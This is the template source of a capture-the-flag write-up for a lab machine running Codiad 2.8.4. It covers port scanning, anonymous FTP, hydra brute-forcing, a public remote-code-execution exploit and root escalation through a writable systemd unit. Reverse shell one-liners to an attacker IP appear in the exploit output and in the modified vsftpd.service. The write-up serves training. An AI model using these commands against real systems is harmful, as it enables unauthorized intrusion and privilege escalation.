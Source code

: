 {% from "macros.html" import console, image, text, code, list, link, header, script, imageModal %}

{{imageModal()}}

{{header("Enumeration", "enumeration")}}

{{text("We start off by scanning all the ports.")}}

{{console("nmap -T5 -p- -sC -sV 10.10.0.210", "Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-17 08:36 CET
Warning: 10.10.0.210 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.0.210
Host is up (0.080s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.1.157
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2:be:d3:3c:e8:76:81:ef:47:7e:d0:43:d4:28:14:28 (RSA)
|   256 a8:82:e9:61:e4:bb:61:af:9f:3a:19:3b:64:bc:de:87 (ECDSA)
|_  256 24:46:75:a7:63:39:b6:3c:e9:f1:fc:a4:13:51:63:20 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
62337/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Codiad 2.8.4
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel")}}

{{text("We discover 3 open ports: ")}}

{{list(['21 (FTP)', '22 (SSH)', '62337 (HTTP)'])}}

{{text("Let's begin by checking the FTP service.")}}

{{text("It allows us to log in anonymously by using <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>anonymous:anonymous</code> as our credentials.")}}

{{text("Inside we can find a folder named <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>...</code> in which is a file named <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>-</code>. Pretty strange names.")}}

{{text("We can download the file using the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>get</code> command.")}}

{{text("In order to read the file let's change it's name to something normal using either the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>mv</code> or <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>cp</code> command.")}}

{{console("cat file", "Hey john,
I have reset the password as you have asked. Please use the default password to login. 
Also, please take care of the image file ;)
- drac.")}}

{{text("We found 2 usernames, <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>john</code> and <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>drac</code>. The note also informs us about a password change to the default one, meaning it should be easy to guess.")}}

{{header("Shell as www-data", "shell-as-www-data")}}

{{text("We proceed to the web page on port 62337, probably looking for some kind of login form.")}}

{{image("../../static/writeups/ide/images/000001.jpg")}}

{{text("It's probably possible for us to guess user's <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>john</code> password, but let's use <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>hydra</code> to brute-force it.")}}

{{console("hydra -l john -P /usr/share/wordlists/rockyou.txt 10.10.0.210 -s 62337 http-post-form '/components/user/controller.php?action=authenticate:username=^USER^&password=^PASS^:Incorrect Username or Password'", "Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-12-17 09:10:17
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.0.210:62337/components/user/controller.php?action=authenticate:username=^USER^&password=^PASS^:Incorrect Username or Password
[62337][http-post-form] host: 10.10.0.210   login: john   password: [REDACTED]
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-12-17 09:10:20")}}

{{text("Knowing the password, we can log in.")}}

{{image("../../static/writeups/ide/images/000002.jpg")}}

{{text("Now we can search for any known exploits for <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>Codiad 2.8.4</code>.")}}

{{text("I came acroos this.")}}

{{link("https://www.exploit-db.com/exploits/49705", "https://www.exploit-db.com/favicon.ico", "Codiad 2.8.4 - Remote Code Execution (Authenticated)")}}

{{text("Let's copy the exploit onto our machine and run it.")}}

{{console("python3 exploit.py http://10.10.192.150:62337/ john password 10.9.1.157 1234 linux", "[+] Please execute the following command on your vps: 
echo 'bash -c 'bash -i >/dev/tcp/10.9.1.157/1235 0>&1 2>&1'' | nc -lnvp 1234
nc -lnvp 1235
[+] Please confirm that you have done the two command above [y/n]
[Y/n] Y
[+] Starting...
[+] Login Content : {'status':'success','data':{'username':'john'}}
[+] Login success!
[+] Getting writeable path...
[+] Path Content : {'status':'success','data':{'name':'CloudCall','path':'\/var\/www\/html\/codiad_projects'}}
[+] Writeable Path : /var/www/html/codiad_projects
[+] Sending payload...
{'status','error','message':'No Results Returned'}
[+] Exploit finished!
[+] Enjoy your reverse shell!")}}

{{text("Now we have a reverse shell on the target.")}}

{{image("../../static/writeups/ide/images/000003.jpg")}}

{{header("Shell as drac", "shell-as-drac")}}

{{text("While looking through the system, I accessed user's <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>drac</code> home directory.")}}

{{text("There was a flag, which I couldn't read and a <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>.bash_history</code> file which contents were not getting deleted.")}}

{{image("../../static/writeups/ide/images/000004.jpg")}}

{{text("We got a password to MySQL database, I wondered if this user reused his passwords and I tried to log in as him.")}}

{{image("../../static/writeups/ide/images/000005.jpg")}}

{{text("Seems like my theory was right.")}}

{{header("Shell as root", "shell-as-root")}}

{{text("Since I had my current user's password, I checked his sudo privilages.")}}

{{console("sudo -l", "Matching Defaults entries for drac on ide:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User drac may run the following commands on ide:
    (ALL : ALL) /usr/sbin/service vsftpd restart")}}

{{text("I checked if we have write permissions to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/lib/systemd/system/vsftpd.service</code> file and we do.")}}

{{text("If we edit this file, then upon restarting the service the edited code will execute.")}}

{{text("Meaning we just have to insert a reverse shell somewhere inside of this file.")}}

{{console("", "[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.9.1.157/1235 0>&1'
ExecReload=/bin/kill -HUP $MAINPID
ExecStartPre=-/bin/mkdir -p /var/run/vsftpd/empty

[Install]
WantedBy=multi-user.target")}}

{{text("Now let's use the sudo command.")}}

{{console("sudo /usr/sbin/service vsftpd restart", "Warning: The unit file, source configuration file or drop-ins of vsftpd.service changed on disk. Run 'systemctl daemon-reload' to reload units.")}}

{{text("We follow the instructions and execute the command provided.")}}

{{text("Now when we run the sudo command again, we should get a reverse shell and be able to read the last flag.")}}

{{image("../../static/writeups/ide/images/000006.jpg")}}

{{script()}}